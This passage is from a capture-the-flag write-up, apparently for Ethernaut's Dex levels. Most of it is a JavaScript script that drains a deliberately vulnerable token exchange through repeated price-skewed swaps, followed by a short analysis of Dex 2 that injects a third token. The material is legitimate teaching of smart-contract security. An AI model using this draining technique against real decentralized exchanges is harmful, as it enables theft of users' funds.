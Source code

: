 ```js

    return toSwap;
}


async function drainFunds(){
    
    let flag=true; // check condition

    // approving otherwise you will get an error due to how ERC20 works.
    await contract.approve(contract.address,10000,{from:PLAYER});

    while(flag){
        const balances = await getBalances();
        const tokenValues =  knowTokenValues(balances);
        const toSwap = await getSwapValues(tokenValues);
        await contract.swap(tokenValues.mostExpensiveToken,tokenValues.cheapestToken,toSwap,{from:PLAYER});
        console.log(`swapped ${toSwap} ${tokenValues.mostExpensiveToken} for  ${tokenValues.cheapestToken}`);

        flag = token1Balance*token2Balance>0;
    }
    
    console.log("Hacked !")
}


module.exports = async  function(deployer) {
  
  contract = await contractABI.at("0xBa71E2eEF0D68C5aBCDe6dF3EEf9377b9eD9E78C"); 
  await drainFunds();
};
```

![Dex console](https://res.cloudinary.com/dsdvvwb8v/image/upload/v1659138023/852281f645c829a2d76b966618bbb6c25f1c4721506ecca9de0e7e6ef4fab42f_dw1jen.png)  

## Dex 2

## Challenge Description

Same as Dex v1 but now we need to drain both tokens.

--------
**Analysis**

Same here but we got one less check that makes it possible to inject a third token and thus draining both contract's main tokens' balance.

![Dex 2 Function](https://res.cloudinary.com/dsdvvwb8v/image/upload/v1659138024/aeb9bb0ecc92f4b707acbc9170c3bd3355c4361d3523704a799bc8717093366d_ogt3sr.png)  
